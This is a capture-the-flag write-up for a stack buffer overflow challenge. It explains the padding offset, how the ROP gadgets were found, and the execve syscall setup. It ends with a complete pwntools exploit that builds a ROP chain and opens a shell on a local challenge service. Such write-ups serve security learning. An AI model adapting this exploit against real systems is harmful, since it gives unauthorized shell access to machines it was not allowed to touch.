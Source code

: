 ## stack

**Category:** Exploit

**Points:** 350

**Solves:** 0

**Description:** We got intel that there is a secret message in the file 'flag.txt' located in the user's home dir

### Write-up

#### environment setup

we were given a binary named `exploit` and ip:port comnination which the binary listens to. since i dont remmber the exact port number, i will just use port 1234 on the localhost in this writeup. the binary was served using socat as follows

```
socat TCP-LISTEN:12345,reuseaddr,fork EXEC:"./exploit"
```
#### vulnerability identification

analyzing the binary in IDA/HexRays showed that `sub_8048B01()` vulnerable to stack buffer overflow, whereby the local variable `v1` that is populated in `sub_80489F4()` is using unsecure `scanf` function (wild guess based on the parameter passed)

![img](img/2018-10-10_04-52.png)
![img](img/2018-10-10_04-51.png)

further analysis on the binary reveals that the `NX` flag was enabled which renders shellcode (`ret2stack`) attack useless. furthermore, the fact that the binary is a stripped static binary makes `ret2libc` attack impossible since we cannot find on libc functions. Thus we can only rely on ropchain attack to execute `/bin/sh` through a system call.

![img](img/2018-10-10_05-12.png)

#### padding calculation

to execute a ropchain attack, we need to overwrite the `saved eip` with our rop gadgets. in order to do that, we need to figure out the exact number of bytes we need to pad from the buffer to the `saved eip`. from the first screenshot, we can see that variable `v1` is `38 (0x26)` bytes away from `ebp`. and since saved eip is located `4` bytes on top of `ebp`, we can deduce that we need to pad `42 (38+4)` bytes of the buffer to reach the `saved eip`. this can be confirmed by providing overflowing cyclic pattern to the buffer and calculating the offset of the value in `eip` at the `SIGSEGV` stop.

![img](img/2018-10-10_05-32.png)

#### linux x86 syscall

now before we move on to the rop chain generation, we need to understand how to make an `execve` system call. basically, we need to call the relevant interrupt (`int 80h`) to make a system call. the `eax` register will hold the system call number and `ebx`,`ecx`,`edx`,`esi`,`edi` and `ebp` will hold the parameters respectively. you can read about it in depth [HERE](https://0xax.gitbooks.io/linux-insides/content/SysCall/linux-syscall-2.html).

![img](img/2018-10-10_05-59.png)

the system call number for `execve` is `0xb (11)`. based on the above manual,  parameter 1 (`ebx`) will hold the address to the filename to be executed, parameter 2 (`ecx`) will hold the array to the arguments and parameter 3 (`edx`) will hold the array to the environement variables. in our case `ebx` will point to `/bin/sh` address while `ecx` and `edx` will point to null address since we dont need any arguments nor environment variables.

#### writing data

first we need to point `ebx` to `/bin/sh` string. the binary provided does not contain the string needed, thus we need to manually insert it into the binary memory. and since we does not know wether the server enables `aslr` or not, we will also avoid writing the string on the stack. we can find writable memory address using `vmmap` command in gdb

![img](img/2018-10-10_06-28.png)

i had chose to write the string in the heap section as it already populated with null characters which save me the trouble of null truncating the string.

#### ropchain generation

now that we have a writable address, we need to find/chain write-what-where gadget(s) in order to write data to it. finding the gadgets manually was a cumbersome process, so i had use `ropper` to semi-automate the chain generation. note that the data was read using `scanf` into the buffer, so we need to declare a few "bad bytes" (whitespace characters `0x9` - `0xd`) that will cause problem. the command are as follows

![img](img/2018-10-10_14-58.png)

now we need to find a way to control `edx` and `eax`. for `edx`, we can just find `pop edx` instruction to populate data into it. but for `eax` there are no reliable `pop eax` instruction in the binary, so i chose to use `lea eax, [edx]` instead

![img](img/2018-10-10_15-05.png)
![img](img/2018-10-10_15-07.png)

repeat the same process to find other gadgets and prepare other registers needed for a `execve` system call. full exploit code:

```python
from pwn import *

context.terminal = ['urxvtc', '-e', 'sh', '-c']

rop = 'a' * 42

lea_eax_edx = 0x08067e64    # lea eax, dword ptr [edx]; ret;
pop_ecx_ebx = 0x0806ff71    # pop ecx; pop ebx; ret
pop_edx = 0x0806ff4a        # pop edx; ret;
write_addr = 0x080ec000     # writable address
mov_edx_eax = 0x0805594b    # mov dword ptr [edx], eax; ret;
xor_eax = 0x08049693        # xor eax, eax; ret;
inc_eax = 0x0807b52f        # inc eax; ret;
int80 = 0x08070510          # int 0x80; ret;

# mov //bin to writable address
rop += p32(pop_edx)
rop += '//bi'
rop += p32(lea_eax_edx)
rop += p32(pop_edx)
rop += p32(write_addr)
rop += p32(mov_edx_eax)

# append n/sh
rop += p32(pop_edx)
rop += 'n/sh'
rop += p32(lea_eax_edx)
rop += p32(pop_edx)
rop += p32(write_addr + 4)
rop += p32(mov_edx_eax)

# point ecx to null & ebx to //bin/sh
rop += p32(pop_ecx_ebx)
rop += p32(write_addr + 8)
rop += p32(write_addr)

# point edx to null
rop += p32(pop_edx)
rop += p32(write_addr + 8)

# make eax = 11 (execve)
rop += p32(xor_eax)
rop += p32(inc_eax) * 11

# make system call
rop += p32(int80)

# create remote connection
r = remote('127.0.0.1', 12345)

# interact with binary
r.recvuntil("Exit\n: ")
r.sendline("1")
r.recvuntil("Name: ")
r.sendline(rop)
r.recvuntil("Exit\n: ")
r.sendline("3")

# shell time baby!
r.interactive()
```

![img](img/2018-10-10_15-24.png)
